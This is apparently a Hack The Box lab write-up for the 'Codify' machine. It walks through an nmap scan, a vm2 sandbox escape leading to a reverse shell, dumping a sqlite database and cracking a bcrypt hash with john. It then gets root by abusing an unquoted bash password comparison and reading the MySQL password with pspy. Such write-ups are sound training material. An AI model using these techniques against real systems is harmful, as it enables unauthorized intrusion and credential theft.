




# Codify machine on [hackthebox](https://app.hackthebox.com)


### Enumeration

Let's start with nmap scan:
```
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Seeing the result we see we have ssh, and two web servers, to save your time, the two are completely identical, so let's start going to the website and see what do we have:


So we see a website that we can use to test our JS code, but of course with limitations (for obvious reasons :D).
We use `require('fs').ReadFile('/etc/passwd')` trying to read a file, but we fail, so let's explore what else could be there. 


And we get this in the `about` page:

We are interested in this part, it shows what they are using for sand-boxing this editor
```
The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The vm2 is a discontinued project, so going into the github repo [here](https://github.com/patriksimek/vm2/releases/tag/3.9.16), will show us a lot of vulnerabilities.

### Exploitation


One of them ([this one](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)), even has a PoC in it that we can use to issue commands on the system and escape the sandbox.

And it worked! we managed to execute `whoami;id`, so let's get a reverse shell.
And we get a shell as `svc` on the box, let's start enumerating

Going into `/var/www/` we can see the folder for this website (editor), and another one called "contact", which also have a Database file, so let's examine it.

It is a sqlite3 database, so let's dump it using:
```bash
sqlite3 tickets.db .dump
```
And we get the following:
```bash
<SNIP>
VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
<SNIP>
```
We get a hash! Let's take it and crack it locally using john.

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' >> joshua.hash

john --wordlist=/opt/wordlists/rockyou.txt joshua.txt
```
And we got the password!
```bash
john --show joshua.hash

?:sp<REDACTED>ob1

1 password hash cracked, 0 left
```
So now is the time for root...

### PE

Doing `sudo -l`, we see we can execute a script:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Taking a look at it, it's doing some stuff related to the database in there, and here is the interesting snippet:

```bash
<SNIP>

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
<SNIP>

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

<SNIP>
```
If we get authenticated, it will issue a command which will use the root password for the database, but how do we get authenticated?

Well staring enough in the above code, we can notice some sort of wildcard abuse chance, see the comparison here is missing because the `$USER_PASS` is not warped in quotes, so what if we inserted `*` ? 
```bash
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
```
We get Password confirmed! so let's try to authenticate to this and also monitor processes using `pspy64` and maybe we can look at the command and get the password.
After running the script, and running pspy too, we wait a bit and see the following:
```bash
<SNIP> 
2024/04/06 18:47:00 CMD: UID=0     PID=21846  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21848  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21847  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh<REDACTED>2kjh3 mysql 
2024/04/06 18:47:01 CMD: UID=0     PID=21849  | 
<SNIP>
```

So trying this password for the root user:
```bash
joshua@codify:/opt/scripts$ su -
Password: 
root@codify:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@codify:~# 

```
It works!

And the box is done! Thanks for reading!

Happy hacking :)
